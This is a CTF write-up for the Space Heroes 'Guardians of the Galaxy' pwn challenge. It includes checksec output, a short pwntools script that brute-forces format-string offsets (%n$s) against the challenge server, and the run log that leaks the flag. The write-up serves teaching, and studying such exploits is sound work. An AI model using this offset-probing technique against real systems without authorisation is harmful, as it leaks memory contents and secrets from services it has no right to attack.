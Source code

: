 ```yaml
---
title: "shctf/pwn: Guardians of the Galaxy"
date: 2022-04-06 10:33:54
categories:
- ctfs
- shctf
- pwn
tags:
- pwn
- format-string
description: "Learn how to brute force a format string attack on ELF binaries! This is my writeup for the Space Heroes CTF binary/pwn challenge \"Guardians of the Galaxy\"."
permalink: ctfs/shctf/pwn/guardians-of-the-galaxy/
thumbnail: /asset/banner/banner-guardians.png
---
```


<style>
    .box {
        border: 1px solid rgb(23, 25, 27);
        border-radius: 5px;
        background-color: rgb(23, 25, 27);
        padding: 1rem;
        font-size: 90%;
        text-align: center;
        margin-top: 1rem;
        margin-bottom: 1rem;
    }
</style>

<div class="box">
Ronan the Accuser has the Power Stone. Can Starlord find a successful distraction format? <code>nc 0.cloud.chals.io 12690</code><br>
<b>Author</b>: GlitchArchetype<br>
<b>Files</b>: <a href="/asset/shctf/guardians">guardians</a>
</div>

<figure class="highlight console">
  <figcaption><span>checksec.sh</span><a target="_blank" rel="noopener"
      href="https://github.com/slimm609/checksec.sh"><span style="color:#82C4E4">github link</span></a></figcaption>
    <table>
        <tr>
            <td class="code">
                <pre><span class="line"><span class="meta prompt_">$ </span><span class="language-bash">checksec guardians</span></span><br><span class="line">[<font color="#277FFF"><b>*</b></font>] &apos;/home/kali/ctfs/shctf/pwn/guardians-of-the-galaxy/guardians&apos;</span><br><span class="line">    Arch:     amd64-64-little</span><br><span class="line">    RELRO:    <font color="#5EBDAB">Full RELRO</font></span><br><span class="line">    Stack:    <font color="#D41919">No canary found</font></span><br><span class="line">    NX:       <font color="#5EBDAB">NX enabled</font></span><br><span class="line">    PIE:      <font color="#5EBDAB">PIE enabled</font></span><br></pre>
            </td>
        </tr>
    </table>
</figure>

Let's look at what happens when you run that binary given to us.

<figure class="highlight console">
    <table>
        <tr>
            <td class="code">
                <pre><span class="line"><span class="meta prompt_">$ </span><span class="language-bash">./guardians</span> </span><br><span class="line">Error, please message admins with &#x27;infinity_error&#x27;.</span><br></pre>
            </td>
        </tr>
    </table>
</figure>


This error is because the binary is probably trying to reference a `flag.txt` within its directory that doesn't exist. Let's create one and run it again:

<figure class="highlight console">
    <table>
        <tr>
            <td class="code">
                <pre><span class="line"><span class="meta prompt_">$ </span><span class="language-bash"><span class="built_in">touch</span> flag.txt &amp;&amp; <span class="built_in">echo</span> <span class="string">&quot;FLAGHERE&quot;</span> &gt; flag.txt</span></span><br><span class="line"><span class="meta prompt_">$ </span><span class="language-bash">./guardians</span></span><br><span class="line">Does Quill manage to win the dance battle?</span><br></pre>
            </td>
        </tr>
    </table>
</figure>

There, we got it to work locally. Since we know that this is problem a format string vulnerability from the "find a successful distraction format" part of the description, let's assume that the vulnerability is it writing our input to the stack with `printf()`. We will need to work our way up the stack with the format `%n$s`, where `n` is the decimal index of the argument you want, and `s` is the `printf()` specifier for a **string of characters**. I wrote this Python3/pwntools script here to achieve this loop:

{% codeblock guardians.py lang:py https://gist.github.com/jktrn/abced39a897e40c196dc2eb3348e1db9 github gist link %}
from pwn import *
for i in range(0, 100):
        p = remote('0.cloud.chals.io', 12690)  
        log.info(f"Trying offset {i}...")
        p.sendline(bytes(('%' + str(i) + '$s'), encoding='utf-8'))

        output = p.recvS()
        if 'shctf' in output:
                log.success(output)
                break
        p.close()
{% endcodeblock %}

As you can see, it will send a UTF-8 encoded format string, with `str(i)` being the looping variable. If its output contains the flag, the loop breaks and the script will stop. Let's run it:

<figure class="highlight console">
    <table>
        <tr>
            <td class="code">
                <pre><span class="line"><span class="meta prompt_">$ </span><span class="language-bash">python3 exp.py</span></span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 0...</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 1...</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 2...</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 3...</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 4...</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 5...</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 6...</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Does Quill manage to win the dance battle?</span><br><span class="line">    </span><br><span class="line">    Oh no, Ronano has seen through the distraction!</span><br><span class="line">    shctf&#123;im_distracting_you&#125;</span><br></pre>
            </td>
        </tr>
    </table>
</figure>


<a href="https://info.flagcounter.com/8Xkk"><img src="https://s01.flagcounter.com/count2/8Xkk/bg_212326/txt_C9CACC/border_C9CACC/columns_3/maxflags_12/viewers_3/labels_0/pageviews_1/flags_1/percent_0/" alt="Free counters!" border="0"></a>
